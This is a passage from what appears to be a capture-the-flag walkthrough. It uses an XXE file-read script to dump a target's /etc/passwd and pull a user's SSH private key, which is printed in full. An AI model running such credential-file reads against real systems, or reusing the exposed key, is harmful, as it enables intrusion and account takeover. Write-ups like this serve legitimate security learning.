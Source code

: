 ```
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
florian:x:1000:1000:florian,,,:/home/florian:/bin/bash
cliff:x:1001:1001::/home/cliff:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:123:130:ftp daemon,,,:/srv/ftp:/bin/false

```

And, we can get try to get ssh keys. We don’t find one for cliff:

```

root@kali# ./xxe_get_file.sh /home/cliff/.ssh/id_rsa

There are 4294967294 possible hosts for

```

But we do for florian:

```

root@kali# ./xxe_get_file.sh /home/florian/.ssh/id_rsa

There are 4294967294 possible hosts for -----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA50DQtmOP78gLZkBjJ/JcC5gmsI21+tPH3wjvLAHaFMmf7j4d
+YQEMbEg+yjj6/ybxJAsF8l2kUhfk56LdpmC3mf/sO4romp9ONkl9R4cu5OB5ef8
lAjOg67dxWIo77STqYZrWUVnQ4n8dKG4Tb/z67+gT0R9lD9c0PhZwRsFQj8aKFFn
1R1B8n9/e1PB0AJ81PPxCc3RpVJdwbq8BLZrVXKNsg+SBUdbBZc3rBC81Kle2CB+
Ix89HQ3deBCL3EpRXoYVQZ4EuCsDo7UlC8YSoEBgVx4IgQCWx34tXCme5cJa/UJd
d4Lkst4w4sptYMHzzshmUDrkrDJDq6olL4FyKwIDAQABAoIBAAxwMwmsX0CRbPOK
AQtUANlqzKHwbVpZa8W2UE74poc5tQ12b9xM2oDluxVnRKMbyjEPZB+/aU41K1bg
TzYI2b4mr90PYm9w9N1K6Ly/auI38+Ouz6oSszDoBeuo9PS3rL2QilOZ5Qz/7gFD
9YrRCUij3PaGg46mvdJLmWBGmMjQS+ZJ7w1ouqsIANypMay2t45v2Ak+SDhl/SDb
/oBJFfnOpXNtQfJZZknOGY3SlCWHTgMCyYJtjMCW2Sh2wxiQSBC8C3p1iKWgyaSV
0qH/3gt7RXd1F3vdvACeuMmjjjARd+LNfsaiu714meDiwif27Knqun4NQ+2x8JA1
sWmBdcECgYEA836Z4ocK0GM7akW09wC7PkvjAweILyq4izvYZg+88Rei0k411lTV
Uahyd7ojN6McSd6foNeRjmqckrKOmCq2hVOXYIWCGxRIIj5WflyynPGhDdMCQtIH
zCr9VrMFc7WCCD+C7nw2YzTrvYByns/Cv+uHRBLe3S4k0KNiUCWmuYsCgYEA8yFE
rV5bD+XI/iOtlUrbKPRyuFVUtPLZ6UPuunLKG4wgsGsiVITYiRhEiHdBjHK8GmYE
tkfFzslrt+cjbWNVcJuXeA6b8Pala7fDp8lBymi8KGnsWlkdQh/5Ew7KRcvWS5q3
HML6ac06Ur2V0ylt1hGh/A4r4YNKgejQ1CcO/eECgYEAk02wjKEDgsO1avoWmyL/
I5XHFMsWsOoYUGr44+17cSLKZo3X9fzGPCs6bIHX0k3DzFB4o1YmAVEvvXN13kpg
ttG2DzdVWUpwxP6PVsx/ZYCr3PAdOw1SmEodjriogLJ6osDBVcMhJ+0Y/EBblwW7
HF3BLAZ6erXyoaFl1XShozcCgYBuS+JfEBYZkTHscP0XZD0mSDce/r8N07odw46y
kM61To2p2wBY/WdKUnMMwaU/9PD2vN9YXhkTpXazmC0PO+gPzNYbRe1ilFIZGuWs
4XVyQK9TWjI6DoFidSTGi4ghv8Y4yDhX2PBHPS4/SPiGMh485gTpVvh7Ntd/NcI+
7HU1oQKBgQCzVl/pMQDI2pKVBlM6egi70ab6+Bsg2U20fcgzc2Mfsl0Ib5T7PzQ3
daPxRgjh3CttZYdyuTK3wxv1n5FauSngLljrKYXb7xQfzMyO0C7bE5Rj8SBaXoqv
uMQ76WKnl3DkzGREM4fUgoFnGp8fNEZl5ioXfxPiH/Xl5nStkQ0rTA==
-----END RSA PRIVATE KEY-----

```
